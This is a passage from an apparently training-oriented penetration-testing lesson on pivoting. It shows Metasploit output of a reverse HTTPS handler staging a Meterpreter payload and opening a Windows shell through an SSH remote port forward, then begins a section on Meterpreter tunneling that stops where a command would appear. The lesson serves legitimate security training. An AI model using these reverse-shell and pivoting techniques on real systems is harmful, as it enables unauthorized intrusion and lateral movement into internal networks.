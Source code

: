 #### Meterpreter Session Established

    [*] Started HTTPS reverse handler on https://0.0.0.0:8000
    [!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
    [*] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Staging x64 payload (201308 bytes) ...
    [!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
    [*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1 ) at 2022-03-02 10:48:10 -0500
    
    meterpreter > shell
    Process 3236 created.
    Channel 1 created.
    Microsoft Windows [Version 10.0.17763.1637]
    (c) 2018 Microsoft Corporation. All rights reserved.
    
    C:\>
    

Our Meterpreter session should list that our incoming connection is from a local host itself (`127.0.0.1`) since we are receiving the connection over the `local SSH socket`, which created an `outbound` connection to the Ubuntu server. Issuing the `netstat` command can show us that the incoming connection is from the SSH service.

The below graphical representation provides an alternative way to understand this technique.

![Diagram showing network setup: Attack Host (10.10.15.5) forwards remote port 8080 to local port 8000 via SSH. Victim Server (Ubuntu) listens on port 8080, forwards to SSH. Victim Server (Windows A) at 172.16.5.19 with RDP Service. Reverse shell forwarded to MSFConsole on port 8000.](fig/remote_port_forwarding.png)


## Meterpreter Tunneling & Port Forwarding

Now let us consider a scenario where we have our Meterpreter shell access on the Ubuntu server (the pivot host), and we want to perform enumeration scans through the pivot host, but we would like to take advantage of the conveniences that Meterpreter sessions bring us. In such cases, we can still create a pivot with our Meterpreter session without relying on SSH port forwarding. We can create a Meterpreter shell for the Ubuntu server with the below command, which will return a shell on our attack host on port `8080`.
